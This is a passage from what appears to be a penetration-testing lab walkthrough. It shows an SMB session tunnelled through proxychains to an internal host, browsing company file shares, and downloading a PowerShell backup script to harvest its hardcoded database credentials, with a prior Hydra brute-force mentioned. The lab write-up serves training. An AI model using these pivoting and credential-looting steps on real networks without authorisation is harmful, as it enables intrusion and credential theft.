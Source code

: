 ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
Enter WORKGROUP\ssmalls's password: 
Try "help" to get a list of possible commands.
smb: \&gt; ls
  .                                   D        0  Wed Jun  1 14:34:06 2022
  ..                                  D        0  Wed Jun  1 14:34:06 2022
  Accounting                          D        0  Wed Jun  1 14:34:08 2022
  Executives                          D        0  Wed Jun  1 14:34:04 2022
  Finance                             D        0  Wed Jun  1 14:34:00 2022
  HR                                  D        0  Wed Jun  1 14:33:48 2022
  IT                                  D        0  Wed Jun  1 14:33:42 2022
  Marketing                           D        0  Wed Jun  1 14:33:56 2022
  R&amp;D                                 D        0  Wed Jun  1 14:33:52 2022

		10328063 blocks of size 4096. 8177952 blocks available
</code></pre>
<p>Then we can browse to the <code>Development</code> share.</p>
<pre><code class="language-shell-session">smb: \IT\Private\&gt; cd Development\
smb: \IT\Private\Development\&gt; ls
  .                                   D        0  Wed Jun  1 14:34:17 2022
  ..                                  D        0  Wed Jun  1 14:34:17 2022
  SQL Express Backup.ps1              A     4001  Wed Jun  1 14:34:15 2022

		10328063 blocks of size 4096. 8177952 blocks available
smb: \IT\Private\Development\&gt; get SQL Express Backup.ps1 
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \IT\Private\Development\SQL
smb: \IT\Private\Development\&gt; get "SQL Express Backup.ps1" 
getting file \IT\Private\Development\SQL Express Backup.ps1 of size 4001 as SQL Express Backup.ps1 (8.7 KiloBytes/sec) (average 8.7 KiloBytes/sec)
</code></pre>
<p>Checking out the file, we see that it's some sort of backup script with hardcoded credentials for the <code>backupadm</code>, another keyboard walk password. I'm noticing a trend in this organization. Perhaps the same admin set it as the one that set the password we brute-forced with <code>Hydra</code> earlier since this is related to development.</p>
<pre><code class="language-shell-session">[!bash!]$ cat SQL\ Express\ Backup.ps1 

$serverName = ".\SQLExpress"
$backupDirectory = "D:\backupSQL"
$daysToStoreDailyBackups = 7
$daysToStoreWeeklyBackups = 28
$monthsToStoreMonthlyBackups = 3

[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SMO") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SmoExtended") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.ConnectionInfo") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SmoEnum") | Out-Null
 
$mySrvConn = new-object Microsoft.SqlServer.Management.Common.ServerConnection
$mySrvConn.ServerInstance=$serverName
$mySrvConn.LoginSecure = $false
$mySrvConn.Login = "backupadm"
$mySrvConn.Password = "&lt;REDACTED&gt;"
